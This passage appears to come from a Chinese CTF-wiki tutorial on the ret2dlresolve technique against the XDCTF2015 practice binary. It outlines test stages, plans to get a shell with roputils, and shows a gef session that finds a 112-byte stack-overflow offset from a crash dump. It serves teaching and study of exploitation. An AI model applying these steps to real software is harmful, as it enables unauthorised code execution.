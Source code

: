    stage 1 测试控制程序执行write函数的效果。

   stage 2 测试控制程序执行dl_resolve函数，并且相应参数指向正常write函数的plt时的执行效果。

   stage 3 测试控制程序执行dl_resolve函数，并且相应参数指向伪造的write函数的plt时的执行效果。

2. 利用roputils中已经集成好的工具来实现攻击，从而获取shell。

### 正常攻击

显然我们程序有一个很明显的栈溢出漏洞的。这题我们不考虑我们有libc的情况。我们可以很容易的分析出偏移为112。

```shell
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
[+] Saved as '$_gef0'
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main 
Welcome to XDCTF2015~!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0x000000c9
$ebx   : 0x00000000
$ecx   : 0xffffcc6c  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$edx   : 0x00000100
$esp   : 0xffffcce0  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
$ebp   : 0x62616163 ("caab"?)
$esi   : 0xf7fac000  →  0x001b1db0
$edi   : 0xffffcd50  →  0xffffcd70  →  0x00000001
$eip   : 0x62616164 ("daab"?)
$cs    : 0x00000023
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcce0', 'l8']
8
0xffffcce0│+0x00: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"	 ← $esp
0xffffcce4│+0x04: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
0xffffcce8│+0x08: "gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa[...]"
0xffffccec│+0x0c: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
0xffffccf0│+0x10: "iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabua[...]"
0xffffccf4│+0x14: "jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva[...]"
0xffffccf8│+0x18: "kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa[...]"
0xffffccfc│+0x1c: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"
```
